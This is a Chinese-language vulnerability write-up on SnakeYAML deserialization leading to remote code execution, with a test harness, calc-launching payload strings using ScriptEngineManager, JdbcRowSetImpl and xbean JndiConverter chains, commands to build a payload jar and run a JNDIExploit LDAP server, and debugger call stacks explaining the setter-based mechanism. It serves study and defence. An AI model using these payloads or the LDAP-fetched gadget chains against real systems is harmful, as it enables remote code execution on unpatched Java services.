






# 漏洞分析

## 反序列化漏洞

### 漏洞描述

当SnakeYaml.load()方法的参数外部可控时，攻击者传入一个恶意的yaml格式序列化的内容，服务端进行反序列化时加载恶意类触发恶意代码，导致远程代码执行。

### 漏洞复现

#### 环境搭建

pom.xml

```xml
<!-- https://mvnrepository.com/artifact/org.yaml/snakeyaml -->
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.30</version>
</dependency>
```

PayloadRunner.java

```java
import org.yaml.snakeyaml.Yaml;

public class PayloadRunner {
    public static void main(String[] args){
        String evilJar = "xxx";
        Yaml yaml = new Yaml();
        yaml.load(evilJar);
    }
}
```

#### 漏洞验证

##### RCE

###### 基于 ScriptEngineManager

利用条件

- 不用出网

payload

- https://github.com/artsploit/yaml-payload



打包成jar包

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```



payload-弹计算器

```java
String evilJar = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"file:///payload.jar\"]]]]";
```

测试效果


##### JNDI 

###### 基于 JdbcRowSetImpl

利用条件

- 需出网，限制同JNDI

LDAP服务

- JNDIExploit


payload-弹计算器

```java
String poc = "!!com.sun.rowset.JdbcRowSetImpl\n dataSourceName: \"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"\n autoCommit: true";
```

测试效果

 

###### 基于 xbean-reflect

这是学习[FasterXML jackson-databind](https://github.com/pen4uin/JavaSec/tree/main/jackson-databind)时用到的一条链，照猫画虎，构造payload

弹计算器

```java
String evilText = "!!org.apache.xbean.propertyeditor.JndiConverter\n asText: \"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"";
```

LDAP服务端

```
java -jar .\JNDIExploit-1.4-SNAPSHOT-modified.jar -i 10.10.10.1
```

 

测试效果

 

###### 基于 more gadgets

经过以上测试的两条链

- JdbcRowSetImplfastjson、对应Fastjson
- xbean-reflect、对应Jackson

推导出SnakeYaml的反序列化可以使用Fastjson 和 Jackson 的利用链，从而得出SnakeYaml的反序列化漏洞的原理【先给出结论再分析】

```
反序列化的过程中调用了setter方法
```


### 漏洞分析

#### RCE

##### 基于 ScriptEngineManager

调试RCE漏洞犹豫在哪下断点的情况时，建议直接下在create()方法处即可，简单直接

- java.lang.ProcessImpl#create

获取调用栈

```java
create:-1, ProcessImpl (java.lang)
<init>:386, ProcessImpl (java.lang)
start:137, ProcessImpl (java.lang)
start:1029, ProcessBuilder (java.lang)
exec:620, Runtime (java.lang)
exec:450, Runtime (java.lang)
exec:347, Runtime (java.lang)
<init>:12, AwesomeScriptEngineFactory (artsploit)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
nextService:380, ServiceLoader$LazyIterator (java.util)
next:404, ServiceLoader$LazyIterator (java.util)
next:480, ServiceLoader$1 (java.util)
initEngines:122, ScriptEngineManager (javax.script)
init:84, ScriptEngineManager (javax.script)
<init>:75, ScriptEngineManager (javax.script)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
construct:548, Constructor$ConstructSequence (org.yaml.snakeyaml.constructor)
construct:309, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:216, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:205, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:164, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:148, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:525, Yaml (org.yaml.snakeyaml)
load:438, Yaml (org.yaml.snakeyaml)
main:11, PayloadRunner (Deserialization.SnakeYAML)
```

入口

- org.yaml.snakeyaml.Yaml#load(java.lang.String)

经过以下调用

 

执行到

- javax.script.ScriptEngineManager#init

```java
private void init(final ClassLoader loader) {
    globalScope = new SimpleBindings();
    engineSpis = new HashSet<ScriptEngineFactory>();
    nameAssociations = new HashMap<String, ScriptEngineFactory>();
    extensionAssociations = new HashMap<String, ScriptEngineFactory>();
    mimeTypeAssociations = new HashMap<String, ScriptEngineFactory>();
    initEngines(loader);
}
```

调用 initEngines() 方法

- javax.script.ScriptEngineManager#initEngines

```java
private void initEngines(final ClassLoader loader) {
    Iterator<ScriptEngineFactory> itr = null;
    try {
        ServiceLoader<ScriptEngineFactory> sl = AccessController.doPrivileged(
            new PrivilegedAction<ServiceLoader<ScriptEngineFactory>>() {
                @Override
                public ServiceLoader<ScriptEngineFactory> run() {
                    return getServiceLoader(loader);
                }
            });

        itr = sl.iterator();
    } catch (ServiceConfigurationError err) {
        System.err.println("Can't find ScriptEngineFactory providers: " +
                           err.getMessage());
        if (DEBUG) {
            err.printStackTrace();
        }
        return;
    }
    try {
        while (itr.hasNext()) {
            try {
                ScriptEngineFactory fact = itr.next();
                engineSpis.add(fact);
            } catch (ServiceConfigurationError err) {
                System.err.println("ScriptEngineManager providers.next(): "
                                   + err.getMessage());
                if (DEBUG) {
                    err.printStackTrace();
                }
                continue;
            }
        }
    } catch (ServiceConfigurationError err) {
        System.err.println("ScriptEngineManager providers.hasNext(): "
                           + err.getMessage());
        if (DEBUG) {
            err.printStackTrace();
        }
        return;
    }
}
```

调用 getServiceLoader() 方法

- javax.script.ScriptEngineManager#getServiceLoader

  - **关键点**：SPI机制

    - https://docs.oracle.com/javase/8/docs/api/java/util/ServiceLoader.html

       

```java
private ServiceLoader<ScriptEngineFactory> getServiceLoader(final ClassLoader loader) {
    if (loader != null) {
        return ServiceLoader.load(ScriptEngineFactory.class, loader);
    } else {
        return ServiceLoader.loadInstalled(ScriptEngineFactory.class);
    }
}
```

再经过以下调用后

 

执行到

- java.util.ServiceLoader.LazyIterator#nextService
  - 反射获取目标路径上的Class

```java
private S nextService() {
    if (!hasNextService())
        throw new NoSuchElementException();
    String cn = nextName;
    nextName = null;
    Class<?> c = null;
    try {
        c = Class.forName(cn, false, loader);
    } catch (ClassNotFoundException x) {
        fail(service,
             "Provider " + cn + " not found");
    }
    if (!service.isAssignableFrom(c)) {
        fail(service,
             "Provider " + cn  + " not a subtype");
    }
    try {
        S p = service.cast(c.newInstance());
        providers.put(cn, p);
        return p;
    } catch (Throwable x) {
        fail(service,
             "Provider " + cn + " could not be instantiated",
             x);
    }
    throw new Error();          // This cannot happen
}

```

当前运行时截图

- loader：URLClassLoader
- cn：artsploit.AwesomeScriptEngineFactory


 调用 c.newInstance() 方法

- 反射调用无参构造方法，触发RCE 
- 初始化静态代码块，触发RCE


测试效果

 

漏洞原理

- 利用SPI机制加载自定义实现的 `ScriptEngineManager` 接口的实现类 `AwesomeScriptEngineFactory `

- 利用反射创建实例时JVM会`调用无参构造方法` & `执行静态代码块` 的特性执行恶意代码

#### JNDI

##### 基于 xbean-reflect

前置条件

pom.xml

```xml
<!-- https://mvnrepository.com/artifact/org.apache.xbean/xbean-reflect -->
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-reflect</artifactId>
    <version>4.15</version>
</dependency>
```

在 `java.lang.ProcessImpl#create` 处下断点，获取

调用栈

```java
create:-1, ProcessImpl (java.lang)
<init>:386, ProcessImpl (java.lang)
start:137, ProcessImpl (java.lang)
start:1029, ProcessBuilder (java.lang)
exec:620, Runtime (java.lang)
exec:485, Runtime (java.lang)
<init>:-1, Exploit79W37PaYjV
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
toObjectImpl:35, JndiConverter (org.apache.xbean.propertyeditor)
toObject:86, AbstractConverter (org.apache.xbean.propertyeditor)
setAsText:59, AbstractConverter (org.apache.xbean.propertyeditor)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
set:77, MethodProperty (org.yaml.snakeyaml.introspector)
constructJavaBean2ndStep:263, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:149, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:309, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:216, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:205, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:164, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:148, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:525, Yaml (org.yaml.snakeyaml)
load:438, Yaml (org.yaml.snakeyaml)
main:11, PayloadRunner (Deserialization.SnakeYAML)
```

入口

- org.yaml.snakeyaml.Yaml#load(java.lang.String)

经过以下调用

 

执行到

- org.yaml.snakeyaml.constructor.Constructor.ConstructMapping#constructJavaBean2ndStep

  - 获取yaml格式数据中的属性的键值对，然后调用propert.set()来set新建目标对象的属性值

    

```java
protected Object constructJavaBean2ndStep(MappingNode node, Object object) {
    Constructor.this.flattenMapping(node);
    Class<? extends Object> beanType = node.getType();
    List<NodeTuple> nodeValue = node.getValue();
    Iterator var5 = nodeValue.iterator();

    while(var5.hasNext()) {
        NodeTuple tuple = (NodeTuple)var5.next();
        if (!(tuple.getKeyNode() instanceof ScalarNode)) {
            throw new YAMLException("Keys must be scalars but found: " + tuple.getKeyNode());
        }

        ScalarNode keyNode = (ScalarNode)tuple.getKeyNode();
        Node valueNode = tuple.getValueNode();
        keyNode.setType(String.class);
        String key = (String)Constructor.this.constructObject(keyNode);

        try {
            TypeDescription memberDescription = (TypeDescription)Constructor.this.typeDefinitions.get(beanType);
            Property property = memberDescription == null ? this.getProperty(beanType, key) : memberDescription.getProperty(key);
            if (!property.isWritable()) {
                throw new YAMLException("No writable property '" + key + "' on class: " + beanType.getName());
            }

            valueNode.setType(property.getType());
            boolean typeDetected = memberDescription != null ? memberDescription.setupPropertyType(key, valueNode) : false;
            if (!typeDetected && valueNode.getNodeId() != NodeId.scalar) {
                Class<?>[] arguments = property.getActualTypeArguments();
                if (arguments != null && arguments.length > 0) {
                    Class ketType;
                    if (valueNode.getNodeId() == NodeId.sequence) {
                        ketType = arguments[0];
                        SequenceNode snode = (SequenceNode)valueNode;
                        snode.setListType(ketType);
                    } else if (Set.class.isAssignableFrom(valueNode.getType())) {
                        ketType = arguments[0];
                        MappingNode mnodex = (MappingNode)valueNode;
                        mnodex.setOnlyKeyType(ketType);
                        mnodex.setUseClassConstructor(true);
                    } else if (Map.class.isAssignableFrom(valueNode.getType())) {
                        ketType = arguments[0];
                        Class<?> valueType = arguments[1];
                        MappingNode mnode = (MappingNode)valueNode;
                        mnode.setTypes(ketType, valueType);
                        mnode.setUseClassConstructor(true);
                    }
                }
            }

            Object value = memberDescription != null ? this.newInstance(memberDescription, key, valueNode) : Constructor.this.constructObject(valueNode);
            if ((property.getType() == Float.TYPE || property.getType() == Float.class) && value instanceof Double) {
                value = ((Double)value).floatValue();
            }

            if (property.getType() == String.class && Tag.BINARY.equals(valueNode.getTag()) && value instanceof byte[]) {
                value = new String((byte[])((byte[])value));
            }

            if (memberDescription == null || !memberDescription.setProperty(object, key, value)) {
                property.set(object, value);
            }
        } catch (DuplicateKeyException var17) {
            throw var17;
        } catch (Exception var18) {
            throw new ConstructorException("Cannot create property=" + key + " for JavaBean=" + object, node.getStartMark(), var18.getMessage(), valueNode.getStartMark(), var18);
        }
    }

    return object;
}
```

跟进 property.set() 方法

- org.yaml.snakeyaml.introspector.MethodProperty#set

```java
public void set(Object object, Object value) throws Exception {
    if (!this.writable) {
        throw new YAMLException("No writable property '" + this.getName() + "' on class: " + object.getClass().getName());
    } else {
        this.property.getWriteMethod().invoke(object, value);
    }
}
```

- 反射调用目标类(`JndiConverter`) asText属性的setter方法(`setAsText`)

 

跟进

- org.apache.xbean.propertyeditor.AbstractConverter#setAsText

```java
public final void setAsText(String text) {
    Object value = this.toObject(this.trim ? text.trim() : text);
    super.setValue(value);
}
```

调用 this.toObject() 方法

- org.apache.xbean.propertyeditor.AbstractConverter#toObject

```java
public final Object toObject(String text) {
    if (text == null) {
        return null;
    } else {
        Object value = this.toObjectImpl(this.trim ? text.trim() : text);
        return value;
    }
}
```

调用 this.toObjectImpl() 方法，触发 lookup() 方法，从而达到JNDI注入的效果。

- `org.apache.xbean.propertyeditor.JndiConverter#toObjectImpl`

```java
protected Object toObjectImpl(String text) {
    try {
        InitialContext context = new InitialContext();
        return (Context)context.lookup(text);
    } catch (NamingException var3) {
        throw new PropertyEditorException(var3);
    }
}
```

测试效果


